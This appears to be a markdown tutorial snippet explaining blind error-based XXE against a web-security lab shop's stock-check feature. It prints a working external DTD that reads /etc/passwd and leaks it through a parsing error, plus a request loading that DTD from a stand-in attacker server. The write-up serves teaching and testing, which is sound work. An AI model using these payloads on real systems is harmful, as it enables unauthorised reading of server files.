 Diagram explaining a blind XXE{.caption}


::: details Example
In this example, an attacker has access to a website containing a shop.

This shop has a "Check stock" feature that parses XML input but does not display the result.

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

If an attacker intercept this request, he will be able to perform a blind error based XXE. First, on the attacker server, prepare the XML payload that will lead to leak `/etc/passwd` due to an XML parsing error :

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Then, the attacker will have to perform a out-of-band XXE to call the the payload stored on his exploit server :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "URL_OF_THE_ATTACKER_PAYLOAD"> %xxe;]>
```

In the HTTP response, the attacker will have access to the `/etc/passwd` file of the victim's server that host the shop. Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://attacker_server/xxe_payload"> 
%xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::
